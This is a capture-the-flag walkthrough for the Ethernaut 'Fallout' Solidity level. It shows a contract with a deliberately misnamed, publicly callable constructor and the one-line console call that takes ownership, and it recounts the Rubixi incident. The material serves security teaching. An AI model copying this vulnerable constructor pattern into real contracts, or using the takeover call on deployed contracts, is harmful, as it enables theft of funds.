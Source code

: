 # Hello Ethernaut

## Challenge Description

Claim ownership of the contract below to complete this level.

Things that might help:

-   Solidity Remix IDE

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./utils/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;
    mapping(address => uint) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint) {
        return allocations[allocator];
    }
}
```

## Challenge Solution Walkthrough

In previous versions of the Solidity compiler, the constructor function was defined with the same name as the contract's name. However, in the given contract, there is a typo in the constructor function name. The function `Fal1out()` should actually be `Fallout()` to serve as the constructor. To solve this challenge, you need to call the `Fal1out()` function. Due to the typo, this function can be called multiple times, allowing anyone to become the owner of the contract.

```solidity
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

To solve the challenge, open the console and execute the following command:

```javascript
> await contract.Fal1out()
```

After executing the command, you will become the owner of the contract. To verify that you are the owner, run the following command:

```javascript
> (await contract.owner()).toString() == player.toString()
< true
```

If the return value is `true`, it means you have successfully become the owner.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
